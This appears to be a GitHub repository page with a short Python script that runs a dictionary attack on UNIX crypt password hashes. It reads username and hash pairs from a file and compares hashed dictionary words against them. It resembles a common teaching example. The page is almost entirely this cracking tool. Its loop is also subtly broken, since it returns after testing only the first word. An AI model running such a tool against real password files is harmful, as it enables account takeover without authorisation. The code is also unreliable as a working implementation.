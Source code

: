 # unix_passwordCracking

=============================================
```Python

# worked under UNIX

import crypt

def testPass(cryptPass):
    salt = cryptPass[0:2] #salt为前2位
    dictFile = open("dictionary.txt","r") #只读方式读取字典
    for word in dictFile.readlines():
        word = word.strip("\n")
        cryptWord = crypt.crypt(word,salt)
        if (cryptWord == cryptPass):
            print("[+] Found Password: " + word + "\n")
            return
        print("[-] Password Not Found. \n")
        return

def main():
    passFile = open("password.txt","r")
    for line in passFile.readlines():
        if ":" in line:
            user = line.split(":")[0] #root: egg
            cryptPass = line.split(":")[1].strip(" ")
            print("[*] Cracking Password For : " + user)
            testPass(cryptPass)

if __name__ == '__main__':
    main()

```

###### if you got a Error:`ModuleNotFoundError: No module named '_crypt'`
###### you should know:`you need to run it under UNIX,crypt() is a unix crypt for password`

